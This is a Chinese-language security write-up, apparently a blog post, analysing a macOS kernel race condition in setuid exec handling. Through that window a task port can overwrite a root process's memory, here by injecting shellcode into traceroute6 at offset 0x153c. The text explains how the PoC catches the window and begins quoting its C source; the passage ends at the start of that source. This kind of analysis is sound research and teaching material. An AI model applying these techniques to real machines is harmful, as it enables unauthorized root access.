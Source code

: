 `Ports`可以在不同的`task`之间传递，通过传递可以赋予其他`task`对`ports`的操作权限。例如POC中使用的就是在父进程与子进程之间传递`Port`得到了对内存操作的权限。

0x02 漏洞原理
=====

在内核处理setuid的程序时存在一个时间窗口，通过这个时间窗口，在进程`Port`被关闭之前，拥有进程`Port`的程序可以改写目标进程的任意内存，通过改写内存可以利用目标进程的root权限执行任意的shellcode。

### 2.1 execv流程漏洞

![流程图](http://drops.javaweb.org/uploads/images/256093379e0d4a79731a44139cb79a026096faff.jpg)

[load_machfile源码分析](http://turingh.github.io/2016/03/30/OSX%E5%86%85%E6%A0%B8%E5%8A%A0%E8%BD%BDmach-o%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/#1-4_load_machfile)

[exec_mach_imgact源码分析](http://turingh.github.io/2016/03/30/OSX%E5%86%85%E6%A0%B8%E5%8A%A0%E8%BD%BDmach-o%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90/#1-3_exec_mach_imgact)

在swap_task_map以及exec_handle_suid之间有一个时间窗口，task port还是可以对内存做出修改的。

具体细节可以参考poc，同时也可以参考源码的分析日志。

### 2.2 捕获时间窗口(灵犀一指)

​时间窗口打开的时机对编写poc非常重要，因为在调用exec之后整个行为都是内核控制的，没有什么直接的办法获取时间窗口，poc中提供的方法是通过不断的调用`mach_vm_region`，当窗口出现时，也就是从old_map切换到new_map时，`mach_vm_region`函数获取的address应该是不同的。具体实现在下面的poc源码分析中会提到。

### 2.3 任意内存写

​在得到窗口打开的时机之后通过上面提到的port以及mach_vm_*的一系列函数就可以做到对目标进程的任意写操作，从而写入shellcode。

### 2.4 shellcode的执行(移花接木)

​shellcode要写在什么地方才会被执行呢？

​通过对traceroute6的分析，可以看到__text的地址偏移是0x153c，所以通过对该地址的内存改写，可以使得shellcode得到执行。

![traceroute6](http://drops.javaweb.org/uploads/images/2c9b1a3159f88abb78d1ae26380dab230f71082e.jpg)

0x03 POC源码分析
=====

### 3.1 main

```
int main() {
  kern_return_t err;

  // register a name with launchd

  mach_port_t bootstrap_port;
  err = task_get_bootstrap_port(mach_task_self(), &bootstrap_port);

  if (err != KERN_SUCCESS) {
    mach_error("can't get bootstrap port", err);
    return 1;
  }

  //创建一个具有接受消息权限的port
  mach_port_t service_port;
  err = mach_port_allocate(mach_task_self(),
                           MACH_PORT_RIGHT_RECEIVE,
                           &service_port);

  if (err != KERN_SUCCESS) {
    mach_error("can't allocate service port", err);
    return 1;
  }
```